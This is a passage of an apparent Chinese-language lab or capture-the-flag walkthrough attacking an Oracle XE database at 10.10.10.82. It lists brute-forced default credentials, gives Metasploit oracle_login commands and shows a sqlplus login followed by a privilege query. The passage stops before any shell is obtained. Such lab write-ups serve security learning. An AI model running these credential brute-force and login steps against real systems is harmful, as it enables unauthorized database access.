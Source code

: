 成功获得账号密码：scott/tiger、Dbsnmp/dbsnmp

#### MSF爆破

```
msf > use auxiliary/admin/oracle/oracle_login
msf > set rhosts 10.10.10.82
msf > set sid XE
msf > run
```

![截图](0b4723c72069473edbd49c9c2ac07525.png)

MSF也能够成功爆破出对应的账号密码

# 获取shell

## 登录数据库

使用 sqlplus 借助以上账号密码登录数据库

```
sqlplus scott/tiger@10.10.10.82:1521/XE
```

![截图](54d8f3138b3aefeacdd296c962c806b7.png)

但是默认情况下 scott 用户不是 sysdba 角色，通过SQL语句查询当前权限也验证了这一结果

```
select * from user_role_privs;
```

![截图](ba73b4120c1af96b5030353c2154c33d.png)
